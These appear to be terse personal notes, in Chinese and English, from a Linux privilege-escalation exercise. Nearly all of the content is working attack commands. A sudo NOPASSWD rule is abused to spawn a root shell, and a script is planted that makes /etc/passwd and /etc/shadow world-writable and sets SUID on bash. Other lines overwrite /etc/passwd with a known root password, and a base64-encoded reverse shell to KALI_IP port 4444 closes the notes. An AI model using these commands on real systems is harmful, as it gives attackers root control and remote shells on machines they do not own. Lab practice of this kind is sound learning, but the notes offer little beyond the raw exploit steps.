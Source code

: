 ```Plain
sudo /usr/bin/python /home/walter/wifi_reset.py
```

成功原因：

- 使用了完整的脚本路径
- 这个完整命令与sudo的NOPASSWD规则完全匹配

Here's the correct way to create the wifi_reset.py file with a single command:

```Plain
echo -e "import os\\nos.system('/bin/bash')" >
wifi_reset.py
```

Or alternatively, using single quotes to wrap the entire content:

```Plain
echo 'import os; os.system("/bin/bash")' >
wifi_reset.py


```

```Python
import os

def stop(text,value):
        os.system("chmod 777 /etc/passwd");

def reset(text,value):
        os.system("chmod +s /bin/bash");

def start(text,value):
        os.system("chmod 777 /etc/shadow");
```

add [wificontroller.py](http://wificontroller.py) if it missing this

```Python
echo "root:$(openssl passwd -1 -salt xyz 123456):0:0:root:/root:/bin/bash" > /etc/passwd
```

```Python
chmod +s /bin/bash
then /bin/bash -p
1. chmod +s /bin/bash
- 这是一个设置SUID (Set User ID) 权限位的命令
- 作用：
  - 给bash shell程序添加SUID权限位
  - 允许普通用户以文件所有者(通常是root)的权限执行该程序
  - 在文件权限中会显示为's'标志
- 执行后的效果：
  - bash程序会在执行时获得root权限
  - 任何用户执行这个bash都会以root身份运行
  - 这是一个常见的权限提升途径
2. /bin/bash -p
- 这是执行bash shell的命令，带有特殊的-p参数
- 作用：
  - -p 参数表示"privileged mode"（特权模式）
  - 保持SUID权限不被丢弃
  - 在bash有SUID位的情况下，保持root权限
```

```Bash
echo 'bash -i >& /dev/tcp/KALI_IP/4444 0>&1' | base64
# Copy the output and use:
echo "BASE64_OUTPUT" | base64 -d | bash
```